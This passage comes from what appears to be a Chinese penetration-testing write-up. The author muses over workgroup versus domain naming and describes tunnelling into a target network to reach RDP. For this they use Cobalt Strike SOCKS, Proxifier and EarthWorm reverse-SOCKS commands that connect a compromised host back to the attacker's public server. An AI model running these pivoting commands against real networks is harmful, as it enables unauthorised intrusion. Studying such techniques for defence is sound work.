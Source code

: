 
-   后来发现自己一开始就错了 一开始看到 systeminfo 写的域 以为有域 毕竟长的太像了！！！  
    结果自己本机测试 工作组可以修改名字然后 systeminfo 就会出现类似于域名 例如  
    哎 这该死的名字！之前还坐了一顿傻逼操作 秀到自己了 还以为是域控关机下线或者迁移了 (域内所有主机域用户或者命令都要经过域控执行)  
    [![](assets/1698896982-6d43cb2f4468644ea80e69e51ec4342c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200307190046-e57da4bc-6062-1.png)

##### But 也不对啊 如果是工作组 域都是大写 他是怎么办到小写的

###### 再者 前面用 Msf 都能看到域控 Ip 难道误报？？？

-   这里不是有口令嘛 3389 上去看看 这么神奇的玩意儿 到底啥样儿  
    cs 自带 sock4  
    通过 cs 建立 sock4 代理 加上 windows 下面 proxifier
    
    ew(frp 也可以但感觉用起没 ew 顺手)  
    目标：shell ew\_win32.exe -s rssocks -d x.x.x.x. -e 1024  
    公网 ip: ./ew\_linux\_x64 -s rcsocks -l 1024 -e 1080 &  
    再用 proxifier 连接
    
    还有就是 msfconsole 也自带端口转发  
    cs 的端口也带转发 不成功 不清楚原因 说无法绑定  
    [![](assets/1698896982-010ab59280ea540131abeeebb81da842.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200307190120-fa122c40-6062-1.png)
    